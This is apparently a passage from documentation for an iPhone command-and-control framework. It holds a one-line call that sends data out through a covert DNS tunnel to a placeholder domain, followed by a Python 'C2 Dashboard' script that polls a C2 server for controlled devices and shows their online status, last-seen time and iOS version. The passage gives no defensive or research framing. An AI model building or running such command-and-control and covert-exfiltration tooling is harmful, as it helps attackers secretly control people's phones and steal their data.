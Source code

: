 ```python
await covert._dns_tunnel(data, "your-domain.com")
```

---

## 📈 Monitoring & Analytics

### Device Status Dashboard

```python
#!/usr/bin/env python3
"""Real-time device monitoring dashboard"""

import asyncio
from datetime import datetime
from c2_server import C2Client

async def dashboard():
    client = C2Client("http://localhost:8443")
    
    while True:
        devices = await client.list_devices()
        
        # Clear screen
        print("\033[2J\033[H")
        
        print("="*80)
        print(f"iPhone C2 Dashboard - {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}")
        print("="*80)
        
        online = sum(1 for d in devices if d['online'])
        offline = len(devices) - online
        
        print(f"\nDevices: {len(devices)} total | {online} online | {offline} offline")
        print("\n" + "="*80)
        
        for device in devices:
            status = "🟢" if device['online'] else "🔴"
            last_seen = datetime.fromtimestamp(device['last_seen'])
            time_diff = datetime.now() - last_seen
            
            print(f"\n{status} {device['device_id']}")
            print(f"   Last seen: {time_diff.seconds//60}m ago")
            
            info = device.get('info', {})
            if 'status' in info:
                print(f"   iOS: {info['status'].get('ios_version', 'Unknown')}")
        
        await asyncio.sleep(10)

asyncio.run(dashboard())
```

---